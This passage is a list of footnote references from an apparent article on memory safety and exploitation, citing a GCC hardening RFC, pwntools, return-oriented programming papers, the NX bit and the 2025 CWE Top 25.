[^13]: [RFC: Introduce -fhardened to enable security-related flags](https://gcc.gnu.org/pipermail/gcc-patches/2023-August/628748.html)

[^14]: [pwntools - CTF toolkit](https://github.com/Gallopsled/pwntools)

[^15]: [Memory Allocation](https://samwho.dev/memory-allocation/)

[^16]: [NX bit](https://en.wikipedia.org/wiki/NX_bit)

[^17]: [Microgadgets: Size Does Matter In Turing-complete Return-oriented Programming](https://publications.sba-research.org/publications/woot12.pdf)

[^18]: [The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)](https://hovav.net/ucsd/dist/geometry.pdf)

[^19]: [2025 CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/archive/2025/2025_cwe_top25.html)
